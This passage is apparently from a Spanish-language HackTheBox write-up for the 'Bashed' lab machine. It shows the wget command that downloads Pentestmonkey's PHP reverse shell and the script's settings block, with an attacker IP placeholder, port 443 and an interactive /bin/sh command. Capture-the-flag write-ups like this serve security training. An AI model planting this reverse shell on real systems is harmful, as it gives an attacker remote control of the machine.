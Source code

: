 <img src="/assets/images/htb-writeup-bashed/Captura7.png">
</p>

Bien, ya conocemos una **Reverse Shell** de **PHP**, busquemos a **Pentestmonkey**:
* https://github.com/pentestmonkey/php-reverse-shell

Ahora, hagamos todo por pasos:
* Clonamos la **Reverse Shell** de **PHP**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

* Modificamos la **Reverse Shell** con nuestra **IP** y un puerto:
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Pon Aqui Tu IP';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
